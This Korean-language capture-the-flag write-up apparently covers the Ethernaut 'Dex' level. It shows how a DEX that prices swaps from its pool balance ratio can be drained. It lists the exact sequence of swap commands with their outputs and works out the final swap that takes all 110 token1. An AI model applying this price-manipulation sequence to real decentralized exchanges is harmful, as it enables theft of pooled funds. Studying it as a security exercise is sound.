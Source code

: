 ```solidity
사용자가 받을 token1의 양 = 바꿀 token2의 양 * DEX에 있는 token1 / DEX에 있는 token2
=> 사용자가 받을 token1의 양 = 20 * 110 / 90 = 24 
```

DEX에 있는 token1의 양은 이전 스왑으로 인해 증가했고 DEX에 있는 token2의 양은 이전 스왑으로 인해 감소했으므로 기존 교환 비였던 1:1보다 더 좋은 교환비로 총 24개의 token1을 가질 수 있게 된다.  

즉 내가 바꾸고자 하는 from의 토큰이 DEX에서 적게 있고 받을 토큰인 to 토큰이 DEX에서 증가한 상태라면 내 from 토큰의 가치가 상승한 상태로 to 토큰으로 교환할 수 있게 된다. 

이는 사실 크게 이상한 식은 아니다. DEX에 적게 존재하는 토큰이 DEX에 많이 존재하는 토큰보다 가치가 높은건 평범한 상태이니까 하지만 중요한 건 내가 기존에 스왑을 통해 변환했던 양보다 훨씬 많이 가져올 수 있다는 것이다.

이를 반복적으로 이용하여 DEX에 있는 토큰을 전부 탈취할 수 있다. 

# 공격

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/14eda1e4-b4f4-4fd0-8aa8-1ca1fc52af66/Untitled.png)

먼저 총 100개 이상의 스왑을 할 일은 없으므로 (110개 가져오면 문제 조건 해결) 먼저 approve를 이용하여 스왑하는데 불편함이 없도록 해놓자.

그리고 이제 스왑을 진행하면 된다.

```solidity
await contract.swap(await contract.token1(),await contract.token2(),10)
-> token2 10개 획득하여 player는 token1 0개 token2 20개 소유
await contract.swap(await contract.token2(),await contract.token1(),20)
-> token1 24개 획득하여 player는 token1 24개 token2 0개 소유
await contract.swap(await contract.token1(),await contract.token2(),24)
-> token2 30개 획득하여 player는 token1 0개 token2 30개 소유
await contract.swap(await contract.token2(),await contract.token1(),30)
-> token1 41개 획득하여 player는 token1 41개 token2 0개 소유
await contract.swap(await contract.token1(),await contract.token2(),41)
-> token2 65개 획득하여 player는 token1 0개 token2 65개 소유

(await contract.getSwapPrice(await contract.token2(),await contract.token1(),65)).toNumber()
158

```

player가 token1 0개 token2를 65개 소유한 시점에서 token2를 전부 스왑하면 얻을 수 있는 token1의 개수는 158개가 나온다. 하지만 DEX에 있는 token1의 개수는 총 110개이므로 110개 보다 많이 탈취할 수는 없다. 따라서 token1을 110개만 얻기 위해서는 token2를 몇개 스왑해야 하는지 계산해보자.

현재 DEX에는 token1 110개 token2 45개가 존재하므로 이를 이용해 계산하면 된다.

```solidity
사용자가 받을 token1의 양 = 바꿀 token2의 양 * DEX에 존재하는 token1의 양 / DEX에 존재하는 token2의 양 
110 = amount * 110  / 45
amount = 45
```

즉 token2 45개가 token1 110개와 같은 교환비를 갖게 된다.  token2 45개만 스왑해도 token1을 110개 얻을 수 있다.

```solidity
(await contract.getSwapPrice(await contract.token2(),await contract.token1(),45)).toNumber()
110
```
